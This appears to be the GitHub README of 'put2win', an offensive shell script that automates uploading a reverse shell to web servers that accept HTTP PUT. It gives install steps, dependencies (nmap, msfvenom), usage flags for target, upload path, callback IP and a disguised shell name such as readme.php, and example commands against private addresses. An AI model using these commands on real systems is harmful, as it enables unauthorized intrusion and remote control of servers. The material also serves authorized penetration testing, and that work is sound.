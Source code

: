 # put2win
[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/dwyl/esta/issues)

Script to automatize shell upload by PUT HTTP method to shell.

[![asciicast](https://asciinema.org/a/204195.png)](https://asciinema.org/a/204195)

# Dependencies
It's necessary to have installed nmap and msfvenom tools for a correct operation

# Installation
```
git clone https://github.com/sysdevploit/put2win
cd put2win
chmod +x put2win.sh
```

# Usage
```
This script automatize shell upload by PUT HTTP method to get shell.

Options:
  -t TARGET        Target URL/IP (e.g. 192.168.1.10)
  -p PORT          Target PORT (e.g. 8080)
  -u URL PATH      Path to save the shell (e.g. /uploads)
  -l LOCAL IP      IP where the shell will connect (e.g. 192.168.1.5)
  -s SHELL NAME    Shell name (e.g. license.php)

Examples of use:
 - ./put2win.sh -t 192.168.1.80 -u /uploads -l 192.168.1.10 -s readme.php
 - ./put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10
 ```
 
# Contact
Telegram: @devploit

Twitter: https://www.twitter.com/devploit
